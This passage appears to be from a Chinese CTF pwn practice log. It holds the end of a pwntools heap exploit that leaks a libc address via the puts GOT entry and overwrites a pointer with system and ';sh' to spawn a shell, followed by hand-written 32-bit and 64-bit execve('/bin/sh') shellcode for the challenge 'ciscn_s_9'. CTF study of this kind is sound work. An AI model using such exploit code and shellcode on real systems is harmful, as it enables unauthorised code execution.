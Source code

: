 ```python
payload = p32(0x804862b)+p32(puts_got)
add(8,payload)
#gdb.attach(r)

show(0)
leak = u32(r.recv(4))
log.success('leak:'+hex(leak))

sys=leak-libc.sym['puts']+libc.sym['system']
#ys=base+libc.sym['system']
dele(1)
#gdb.attach(r)

payload = p32(sys) + ';sh\0'
add(8,payload)
show(0)
r.interactive()
```

## 7月19日

## 1.ciscn_s_9

32位手撸shellcode

```python
context.arch='i386'
code='''
push 0x68
push 0x732f2f2f
push 0x6e69622f 
mov ebx, esp
xor ecx, ecx
xor edx, edx
mov al, 0xb  
int 0x80
'''
sc = asm(code)
```

64位手撸shellcode

```python
context.arch = 'amd64'
code = '''
mov rax, 0x68732f6e69622f;
push rax
mov rdi, rsp;
mov rsi, 0;
xor rdx, rdx;
mov rax, 59;
syscall
'''
sc = asm(code)
```
